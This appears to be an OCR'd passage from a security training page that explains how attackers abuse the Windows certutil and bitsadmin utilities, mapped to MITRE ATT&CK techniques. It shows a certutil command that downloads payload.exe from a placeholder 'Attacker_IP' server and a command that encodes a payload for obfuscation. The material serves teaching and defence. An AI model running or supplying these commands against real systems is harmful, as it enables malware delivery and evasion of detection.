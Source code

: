 Certutil

Certutil is a Windows built-in utility for handling certification services. It is used to dump and display Certification Authority (CA) configuration information and other CA components. Therefore, the tool's normal use is to retrieve certificate information. However, people found that certutil.exe could transfer and encode files unrelated to certification services. The MITRE ATT&CK framework identifies this technique as Ingress tool transfer (T1105).

To illustrate this with an example, we can use certutil.exe to download a file from an attacker's web server and store it in the Window's temporary folder, using the command below. Note that we use the-urlcache and -split -f parameters to enforce the tool to download from the provided URL using the split technique.

```
Command Prompt

           
			
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe

	    
```

-urlcache to display URL, enables the URL option to use in the command
-split -f  to split and force fetching files from the provided URL.

Also, the certutil.exe can be used as an encoding tool where we can encode files and decode the content of files. ATT&CK T1027 refers to this technique to obfuscate files to make them difficult to discover or analyze.

```
Command Prompt

           
			
C:\Users\thm> certutil -encode payload.exe Encoded-payload.txt

	    
```

For more information about the tool, you may visit the Microsoft Document here: Microsoft Docs: CertUtil

BITSAdmin

The bitsadmin tool is a system administrator utility that can be used to create, download or upload Background Intelligent Transfer Service (BITS) jobs and check their progress.
https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal

 BITS is a low-bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers. Additional information about the bitsadmin tool can be found at Microsoft Docs.

Attackers may abuse the BITS jobs to download and execute a malicious payload in a compromised machine. For more information about this technique, you may visit the ATT&CK T1197 page.
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin
Introduce the terminal container content (revisit)
